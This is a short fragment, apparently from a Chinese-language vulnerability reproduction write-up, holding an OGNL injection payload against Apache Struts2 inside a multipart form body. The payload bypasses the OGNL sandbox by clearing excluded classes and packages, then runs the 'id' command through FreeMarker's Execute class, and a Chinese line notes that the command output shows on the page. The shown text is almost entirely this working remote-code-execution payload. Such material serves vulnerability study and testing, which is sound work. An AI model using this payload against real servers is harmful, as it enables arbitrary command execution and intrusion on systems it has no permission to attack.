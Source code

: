 ```plain
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id`命令返回结果将直接显示在页面中：



![img](assets/1670311023965-e0d13a55-4fb8-4012-af13-1f027a5f0272.png)

